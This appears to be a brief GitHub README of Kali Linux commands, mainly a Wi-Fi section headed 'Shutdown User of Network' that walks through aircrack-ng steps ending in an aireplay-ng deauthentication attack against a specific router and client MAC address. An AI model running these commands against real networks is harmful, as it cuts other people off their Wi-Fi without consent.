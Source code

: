 # kali-commands

---

**Others Commands:** 

setxkbmap -model abnt2 -layout br _This command set the layout keyboard for brazilian._
   
---

**Wireless**

***Shutdown User of Network***

   -``ifconfig`` - _for see name of the internet, like Ether or Wlan_   
   
   -`root@localhost:~# airmon-ng start wlan0 ` _This example init airmon for monitoring_
   
   -`root@localhost:~# airodump-ng wlan0mon` _this init the screen of networks_  
   
   `-root@localhost:~# airodump-ng --bssid 58:D5:6E:6C:2F:8C --channel 10 wlan0mon` _Here initialize process of see all users in network_
   
   -`root@localhost:~# aireplay-ng -0 100 -a 58:D5:6E:6C:2F:8C -c 48:49:C7:FD:F3:1E wlan0mon` _this init the attach._
   
   -`root@localhost:~# airmon-ng stop wlan0mon` _This stop monitoring mod_

refs: --bssid or -a is Mac Adress of Router and -c is Mac of device connected.

---

**Install packages**
(https://docs.kali.org/general-use/kali-linux-sources-list-repositories)[Links for insert in list]


